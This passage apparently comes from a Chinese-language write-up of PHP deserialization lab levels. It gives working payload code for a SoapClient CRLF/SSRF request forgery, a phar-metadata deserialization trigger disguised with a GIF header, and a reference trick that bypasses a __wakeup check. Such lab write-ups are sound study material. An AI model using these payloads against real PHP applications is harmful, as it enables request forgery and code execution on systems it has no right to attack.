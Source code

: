 ```php
$b->source->str=$c;
$c->p=$a;
echo "\n";
echo urlencode(serialize($b));
```

**level10 just_one_soap**

soap数据包测试方法：将loaction更改为监听ip和端口即可（注意：该包是index.php”发出“的）。

下图实例（公网ip测试）：![image-20220217103937584](C:\Users\qte\AppData\Roaming\Typora\typora-user-images\image-20220217103937584.png)

```php
<?php
$post_data='pass=password';
$data_len=strlen($post_data);
$a = new SoapClient(null,array('location'=>'http://shiyan/SER/level10/flag.php','user_agent'=>'admin^^Content-Type: application/x-www-form-urlencoded^^Content-Length: '.$data_len.'^^^^'.$post_data,'uri'=>'bbba'));
$b = serialize($a);
$b = str_replace('^^',"\r\n",$b);
$b = str_replace('&','&',$b);
echo urlencode($b);
```

**level11 a phar**

```php
<?php
class TestObject {
}

@unlink("phar1.phar");
$phar = new Phar("phar1.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$o = new TestObject();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();
?>
```

![image-20220221092905715](C:\Users\qte\AppData\Roaming\Typora\typora-user-images\image-20220221092905715.png)

**level12 a phar trick** 

![image-20220221100925190](C:\Users\qte\AppData\Roaming\Typora\typora-user-images\image-20220221100925190.png)

**level13 引用和session** 

```php
<?php

class Flag{
    public $name;
    public $her;
    function __wakeup(){
        $this->name=$this->her=md5(rand(1, 10000));
        if ($this->name===$this->her){
            include('flag.php');
            echo $flag;
        }
    }
}
$b=new Flag();
$b->her=&$b->name;
```